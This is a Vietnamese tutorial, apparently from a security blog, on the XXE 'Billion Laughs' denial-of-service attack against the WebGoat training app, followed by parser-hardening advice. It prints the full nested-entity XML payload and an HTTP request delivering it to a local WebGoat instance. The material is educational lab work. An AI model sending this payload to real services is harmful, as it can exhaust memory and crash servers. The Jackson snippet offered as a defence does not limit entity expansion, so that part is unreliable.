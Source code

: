 ```yaml
---
title: 1.09 | XXE
slug: XXE-09
description: Bài viết này sẽ hướng dẫn cách tấn công XXE trên WebGoat 2023.8
image: https://tiennhm.github.io/img/docs/database.jpg
sidebar_position: 1
# sidebar_class_name: hidden
tags: 
    - web-security
    - webgoat
    - security-misconfiguration
    - xxe
    - webgoat-2023.8
keywords: [web-security, webgoat, security-misconfiguration, xxe, webgoat-2023.8]
enableComments: true # for Gisqus comments, set to true
draft: false # set to true to hide this post from the site
---
```


> **XXE DoS Attack – Billion Laughs Attack**  

## **1. Giới thiệu về tấn công XXE DoS**  
Trong bài trước, ta đã thấy **XXE Injection** có thể được dùng để đọc file hệ thống. Nhưng ngoài việc đọc dữ liệu, **XXE cũng có thể gây tấn công từ chối dịch vụ (DoS – Denial of Service)**.  

💡 Một trong những kỹ thuật phổ biến để tấn công DoS thông qua XXE là **Billion Laughs Attack**.  


## **2. Cách hoạt động của Billion Laughs Attack**  

Đây là payload XML thực hiện tấn công:  

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
    <!ENTITY lol "lol">
    <!ELEMENT lolz (#PCDATA)>
    <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
    <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
    <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
    <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
    <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
    <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
    <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
    <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

📌 **Phân tích cách hoạt động**  
1. **Khai báo thực thể (`ENTITY`) lồng nhau**:  
   - `&lol;` = `"lol"`  
   - `&lol1;` = `10 x &lol;`  
   - `&lol2;` = `10 x &lol1;`  
   - `&lol3;` = `10 x &lol2;`  
   - …  
   - `&lol9;` = `10 x &lol8;`  

2. **Tổng dung lượng khi mở rộng thực thể**:  
   - Dữ liệu XML ban đầu chỉ vài trăm byte.  
   - Sau khi mở rộng thực thể, nó chiếm gần 3GB bộ nhớ.  
   - Server có thể bị crash vì hết bộ nhớ.  


## **3. Thử nghiệm với WebGoat**  

Gửi request chứa payload **Billion Laughs Attack**:  

```http
POST http://localhost:8080/WebGoat/xxe/content-type HTTP/1.1
Content-Type: application/xml

<?xml version="1.0"?>
<!DOCTYPE lolz [
    <!ENTITY lol "lol">
    <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
    <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
    <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
    <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
    <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
    <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
    <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
    <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

🛑 **Kết quả mong đợi**:  
- Nếu hệ thống **dễ bị tấn công**, server có thể **bị crash** do hết bộ nhớ.  
- Nếu hệ thống đã có bảo vệ, nó sẽ từ chối request với lỗi:  

```
javax.xml.stream.XMLStreamException: Maximum entity expansion limit reached
```


## **4. Biện pháp phòng chống XXE DoS**  

### **1️⃣ Tắt hỗ trợ ENTITY trong XML Parser**  
Trong Java, có thể chặn **ENTITY** để ngăn tấn công XXE:  

```java
DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
factory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
DocumentBuilder builder = factory.newDocumentBuilder();
```


### **2️⃣ Giới hạn số lần mở rộng thực thể**  
Một số thư viện cho phép đặt giới hạn số lần mở rộng thực thể để tránh lặp vô hạn.  

Trong **Python** với `lxml`:  
```python
from lxml import etree

parser = etree.XMLParser(resolve_entities=False)  # Chặn mở rộng ENTITY
xml_data = '<!DOCTYPE foo [<!ENTITY x "Hello">]><foo>&x;</foo>'
etree.fromstring(xml_data, parser)  # Không bị XXE
```

Trong **Spring Boot**, có thể cấu hình `JacksonXmlModule`:  

```java
JacksonXmlModule module = new JacksonXmlModule();
module.setDefaultUseWrapper(false);
XmlMapper xmlMapper = new XmlMapper(module);
xmlMapper.configure(DeserializationFeature.FAIL_ON_UNKNOWN_PROPERTIES, false);
```


### **3️⃣ Chỉ sử dụng JSON thay vì XML**  
Nếu ứng dụng không thực sự cần XML, tốt nhất chỉ sử dụng **JSON** để tránh các lỗ hổng liên quan đến XML.  

```json
{
    "message": "Hello, world!"
}
```


## **5. Kết luận**  
- **XXE DoS Attack (Billion Laughs Attack)** có thể làm server bị crash bằng cách mở rộng thực thể lặp vô hạn.  
- **Thử nghiệm trên WebGoat** bằng cách gửi một payload với nhiều ENTITY lồng nhau.  
- **Phòng chống** bằng cách:  
  1. Tắt ENTITY trong XML Parser.  
  2. Giới hạn số lần mở rộng thực thể.  
  3. Chuyển sang JSON thay vì XML nếu có thể.  

